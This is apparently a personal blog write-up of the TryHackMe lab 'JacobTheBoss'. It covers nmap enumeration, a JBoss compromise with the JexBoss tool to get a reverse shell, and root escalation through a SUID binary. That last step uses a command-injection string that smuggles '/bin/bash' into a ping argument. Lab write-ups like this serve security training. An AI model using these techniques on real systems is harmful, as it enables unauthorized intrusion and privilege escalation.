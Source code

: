 ```yaml
---
title: "TryHackMe - JacobTheBoss"
author: Nasrallah
description: ""
date: 2023-03-13 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, easy, jboss, rce, suid]
img_path: /assets/img/tryhackme/jacobtheboss
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [JacobTheBoss](https://tryhackme.com/room/jacobtheboss) from [TryHackMe](https://tryhackme.com). We find a vulnerable instance of jboss that exploit to get foothold. On the target system we find a SUID binary that we exploit to get a root shell.

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.


```terminal
Nmap scan report for 10.10.112.107                                                                                                                    [43/141]
Host is up (0.10s latency).                                                                                                                                   
Not shown: 987 closed tcp ports (reset)                                                                                                                       
PORT     STATE SERVICE     VERSION                                                                                                                            
22/tcp   open  ssh         OpenSSH 7.4 (protocol 2.0)                                                                                                         
| ssh-hostkey:                                                                                                                                                
|   2048 82ca136ed963c05f4a23a5a5a5103c7f (RSA)                                                                                                               
|   256 a46ed25d0d362e732f1d529ce58a7b04 (ECDSA)                                                                                                              
|_  256 6f54a65eba5badcc87eed3a8d5e0aa2a (ED25519)                                                                                                            
80/tcp   open  http        Apache httpd 2.4.6 ((CentOS) PHP/7.3.20)                                                                                           
|_http-server-header: Apache/2.4.6 (CentOS) PHP/7.3.20                                                                                                        
|_http-title: My first blog                                                                                                                                   
111/tcp  open  rpcbind     2-4 (RPC #100000)                                                                                                                  
| rpcinfo:                                                                                                                                                    
|   program version    port/proto  service                                                                                                                    
|   100000  2,3,4        111/tcp   rpcbind                                                                                                                    
|   100000  2,3,4        111/udp   rpcbind                                                                                                                    
|   100000  3,4          111/tcp6  rpcbind                                                                                                                    
|_  100000  3,4          111/udp6  rpcbind                                                                                                                    
1090/tcp open  java-rmi    Java RMI                                                                                                                           
|_rmi-dumpregistry: ERROR: Script execution failed (use -d to debug)                                                                                          
1098/tcp open  java-rmi    Java RMI
1099/tcp open  java-object Java Object Serialization                                                                                                          
| fingerprint-strings:                                                                                                                                        
|   NULL:                                                                                                                                                     
|     java.rmi.MarshalledObject|                                                                                                                              
|     hash[                                                                                                                                                   
|     locBytest                                                                                                                                               
|     objBytesq                                                                                                                                               
|     http://jacobtheboss.box:8083/q                                                                                                                          
|     org.jnp.server.NamingServer_Stub                                                                                                                        
|     java.rmi.server.RemoteStub                                                                                                                              
|     java.rmi.server.RemoteObject                                                                                                                            
|     xpw;                                                                                                                                                    
|     UnicastRef2                                                                                                                                             
|_    jacobtheboss.box                                                                                                                                        
3306/tcp open  mysql       MariaDB (unauthorized)
4444/tcp open  java-rmi    Java RMI
4445/tcp open  java-object Java Object Serialization
4446/tcp open  java-object Java Object Serialization
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods: 
|   Supported methods: GET HEAD POST PUT DELETE TRACE OPTIONS
|   Potentially risky methods: PUT DELETE TRACE
|_  See https://nmap.org/nsedoc/scripts/ajp-methods.html
8080/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Welcome to JBoss&trade;
| http-methods: 
|_  Potentially risky methods: PUT DELETE TRACE
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1 
8083/tcp open  http        JBoss service httpd
|_http-title: Site doesn't have a title (text/html).
```

There are a lot of open ports here, but the one we're probably interested in is port 8080 that's running jboss.

## Web

![](1.png)

# **Foothold**

Using the tool [JexBoss](https://github.com/joaomatosf/jexboss), let's see if this jboss instance has any vulnerabilities.

![](2.png)

The tool found 3 vulnerable entries.

Let's submit our tun0 ip and listening port to the tool to get a reverse shell.

![](3.png)

# **Privilege Escalation**

By running `linpeas` on the target we manage to find an suid binary

![](5.png)

This is an unusual binary, searching this binary i came across this [post](https://security.stackexchange.com/questions/196577/privilege-escalation-c-functions-setuid0-with-system-not-working-in-linux) on stackexchange.

To exploit the binary, we run the following command:

```bash
ping '127.0.0.1 -c 1;/bin/bash'
```

![](4.png)

And just like that we got root.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---
